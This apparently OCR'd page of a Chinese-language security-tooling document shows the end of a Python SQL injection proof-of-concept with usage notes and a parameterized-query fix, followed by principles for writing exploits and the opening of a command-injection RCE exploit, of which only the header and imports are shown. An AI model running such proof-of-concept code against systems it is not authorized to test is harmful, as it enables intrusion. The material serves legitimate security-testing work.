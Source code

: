 ```python
        return any(results.values())

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="SQL Injection POC")
    parser.add_argument("--target", required=True, help="Target URL (e.g., http://target.com)")
    args = parser.parse_args()
    
    poc = SQLInjectionPOC(args.target)
    vulnerable = poc.run_all_tests()
    
    exit(0 if vulnerable else 1)

"""
使用说明:
    python poc_sqli_001.py --target http://target.com

预期结果:
    如果存在漏洞，将输出:
    - 返回的用户数量超过1个
    - 或响应时间延迟5秒
    
修复建议:
    使用参数化查询:
    String sql = "SELECT * FROM users WHERE id = ?";
    return jdbcTemplate.query(sql, new Object[]{userId}, userRowMapper);
    
相关资源:
    - OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
    - CWE-89: https://cwe.mitre.org/data/definitions/89.html
"""
```

#### 3.6.3 EXP生成原则和策略

**核心原则**：

1. **模块化设计**：EXP应该是可配置和可扩展的
2. **安全警告突出**：必须包含明显的安全警告和使用限制
3. **参数化配置**：允许自定义目标、端口等参数
4. **详细技术说明**：解释利用原理和工作机制

**EXP代码示例（命令注入）**：

```python
#!/usr/bin/env python3
"""
EXP for Command Injection in FileProcessor.processFile()

🚨 SECURITY WARNING 🚨
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
⚠️  This exploit code is for AUTHORIZED SECURITY TESTING ONLY!
⚠️  Unauthorized access to computer systems is ILLEGAL!
⚠️  Use only on systems you own or have explicit permission to test!
⚠️  The authors are NOT responsible for any misuse or damage!
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

Severity: CRITICAL
Impact: Remote Code Execution (RCE)
CVSS Score: 9.8 (Critical)
"""

import requests
import argparse
import base64
from typing import Optional
```